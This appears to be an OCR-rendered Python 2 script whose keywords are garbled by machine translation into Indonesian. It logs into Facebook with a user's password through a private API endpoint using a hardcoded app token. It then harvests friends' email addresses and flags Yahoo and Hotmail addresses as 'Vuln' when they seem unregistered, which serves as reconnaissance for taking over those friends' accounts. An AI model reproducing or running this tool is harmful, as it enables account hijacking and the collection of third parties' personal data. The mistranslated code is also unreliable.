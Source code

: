 # encoding = utf8

# Recode: IziG4nz

permintaan impor , json, os, re, sys, mekanisasi, urllib

memuat ulang (sys)

sys.setdefaultencoding ( ' utf8 ' )

br = mechanize.Browser ()

br.set_handle_robots ( False )

os.system ( " clear " )

idt =  raw_input ( " \ 033 [39m [ \ 033 [31m * \ 033 [39m] Email: " )

passw =  raw_input ( " \ 033 [39m [ \ 033 [31m * \ 033 [39m] Kata Sandi: " )

url =  " https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email= "  + (idt) +  " & locale = en_US & password = "  + (sandi batasan) +  " & sdk = ios & menghasilkan_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6 "

data = urllib.urlopen (url)

op = json.load (data)

jika  ' access_token '  di op:

    token = (op [ " access_token " ])

    cetak ( " \ 033 [39m [ \ 033 [31m + \ 033 [39m] Login Berhasil " )

lain :

    cetak ( " \ 033 [39m [ \ 033 [31m + \ 033 [39m] \ 033 [31mLogin Gagal! " )

    sys.exit ()

get_friends = requests.get ( ' https://graph.facebook.com/me/friends?access_token= ' + token)

hasil = json.loads (get_friends.text)

cetak ( " \ 033 [39m [ \ 033 [31m + \ 033 [39m] Berhasil Mendapatkan ID Teman ... " )

# cok = terbuka ('Mail_Yahoo.txt', 'w')

def  pertahanan ():

    global o, h

    o = []

    h =  0

    cetak  " \ 033 [36m "  +  55 * " - "

    cetak  " \ 033 [36m | "  +  11 * "  "  +  " \ 033 [35mEmail "  +  14 * "  "  +  " \ 033 [36m | "  +  9 * "  "  +  " \ " 033 [33mVuln "  +  8 * "  "  +  " \ 033 [36m | "

    cetak  55 * " - "

    untuk saya di hasil [ ' data ' ]:

        wrna =  " \ 033 [36m "

        wrne =  " \ 033 [39m "

        h + = 1

        o.menambahkan (h)

        x = requests.get ( " https://graph.facebook.com/ " + i [ ' id ' ] + " ? access_token = " + token)

        z = json.loads (x.text)

        coba :

            kunci = re.compile ( r ' @ . * ' )

            cari = kunci.search (z [ ' email ' ]). group ()

            if  ' yahoo.com '  di cari:

                br.open ( " https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com " )

                br._factory.is_html =  Benar

                br.select_form ( nr = 0 )

                br [ " username " ] = z [ ' email ' ]

                j = br.submit (). read ()

                Zen = mengkompilasi ulang ( r ' "pesan . ERROR_INVALID_USERNAME"> . * ' )

                coba :

                    cd = Zen.search (j) .group ()

                kecuali :

                    vuln =  6 * "  "  +  " \ 033 [31mNdak Vuln "

                    # Email Len

                    lean =  30  - ( len (z [ ' email ' ]))

                    eml = lean *  "  "

                    # Beri nama Len

                    lone =  24  - ( len (vuln))

                    namel = lone *  "  "

                    cetak  " \ 033 [36m | "  + wrna + z [ ' email ' ] + eml +  " \ 033 [36m | "  + wrne + vuln + namel +  "  \ 033 [36m | "

                    terus

                jika  ' "messages.ERROR_INVALID_USERNAME"> '  di cd:

                    vuln =  8 * "  "  +  " \ 033 [32mVuln "

                lain :

                    vuln =  5 * "  "  +  " \ 033 [31mNdak Vuln "

                # Email Len

                lean =  30  - ( len (z [ ' email ' ]))

                eml = lean *  "  "

                # Beri nama Len

                # Penulis: Zen-Oh-Sama

                lone =  24  - ( len (vuln))

                namel = lone *  "  "

                cetak  " \ 033 [36m | "  + wrna + z [ ' email ' ] + eml +  " \ 033 [36m | "  + wrne + vuln + namel +  "  \ 033 [36m | "

            elif  ' hotmail '  di cari:

                url = ( " http://apilayer.net/api/check?access_key=7a58ece2d10e54d09e93b71379677dbb&email= "  + z [ ' email ' ] +  " & smtp = 1 & format = 1 " )

                cek = json.loads (requests.get (url) .text)

                jika cek [ ' smtp_check ' ] ==  0 :

                    vuln =  8 * "  "  +  " \ 033 [32mVuln "

                lain :

                    vuln =  5 * "  "  +  " \ 033 [31mNdak Vuln "

                lean =  30  - ( len (z [ ' email ' ]))

                eml = lean *  "  "

                # Beri nama Len

                # recode: Izig4nz

                lone =  24  - ( len (vuln))

                namel = lone *  "  "

                cetak  " \ 033 [36m | "  + wrna + z [ ' email ' ] + eml +  " \ 033 [36m |   "  + wrne + vuln + namel +  " \ 033 [36m | "

            lain :

                lulus

        kecuali  KeyError :

            lulus

pertahanan()
